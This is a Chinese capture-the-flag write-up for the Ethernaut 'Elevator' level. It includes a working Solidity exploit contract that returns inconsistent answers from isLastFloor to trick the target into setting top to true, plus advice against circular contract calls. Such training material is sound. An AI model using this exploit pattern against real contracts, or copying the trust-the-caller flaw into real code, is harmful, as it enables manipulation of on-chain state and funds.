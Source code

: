 # level11 Elevator

## 1. 问题

要求你到达 `Elevator` 合约的顶层，也就是设置合约中 `top` 字段值为 `true`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

## 2. 解法

因为 `Building` 合约是我们自己实现的，所以我们可以定制这个逻辑，让 `if (!building.isLastFloor(_floor))` 时函数返回 `false`，等到后续 `top = building.isLastFloor(floor)` 时返回 `true`.

1. 代码如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator {
    function goTo(uint256 _floor) external;
}

contract Building {
    int private visitCount = 0;
    
    function isLastFloor(uint256 _floor) public returns (bool) {
        if (visitCount == 0) {
            // 第一次调用，返回false, _floor不重要
            // 调整visitCount，让后续无法再进入这个分支
            visitCount ++;
            return false;
        } else {
            // 后面再调用，会走到这个分支
            return true;
        }
    }
    
    // 用来触发调用 goTo 函数
    function trigger(address _elevator, uint256 _floor) external {
        Elevator(_elevator).goTo(_floor);
    }
}
```

2. 在remix上编译部署，然后触发 `trigger` 函数，[交易链接]():

![](../../resources/img/level11/trigger.png)


## 3. 补充说明

> [!IMPORTANT]
> 尽量避免循环调用！
> 
> 在我们的例子中， `Building` 合约调用了 `Elevator` 合约中的 `goTo` 函数，而这个函数内部又回调了 `Building` 合约的 `isLastFloor`, 形成合约间的循环调用。
> 
> 一般来说，我们应该避免合约间循环调用：
> 1. 循环调用容易出现 `重入攻击`
> 2. 循环调用可能导致gas费用过高（合约间调用次数多）
> 3. 容易因为最后的某次失败导致总体失败
> 4. 链路复杂，可测性低、维护困难
